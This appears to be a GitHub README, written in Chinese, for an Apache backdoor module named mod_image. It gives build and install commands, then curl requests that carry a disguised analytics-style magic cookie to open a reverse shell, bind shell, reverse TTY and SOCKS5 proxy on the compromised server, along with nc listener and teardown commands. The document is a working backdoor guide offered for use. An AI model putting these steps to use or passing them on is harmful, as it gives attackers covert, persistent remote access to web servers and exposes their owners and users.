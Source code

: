 # Apache backdoor
### 安装
1. wget 
2. sudo apxs -i -a -c mod_image.c sblist.c sblist_delete.c server.c -Wl,-lutil
3. sudo a2enmod image
4. sudo systemctl restart apache2
5. 无命令apxs需要安装 sudo apt-get install apache2-dev
### 利用
nc监听
 nc -lvp 1337
vps执行
反向shell
curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://127.0.0.1/redirect/127.0.0.1/1337/bash

正向
curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://127.0.0.1/bind/1337
nc 127.0.0.1 1331

反向TTY
curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://127.0.0.1/revtty/127.0.0.1/1337

Socket5
1. curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://172.16.145.153/proxy/1337/vlad
2. curl -x socks5://vlad:Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297@<172.16.145.153>:1337 https://www.google.com
3. 代理取消echo "imdonewithyou" | nc 172.16.145.153 1337
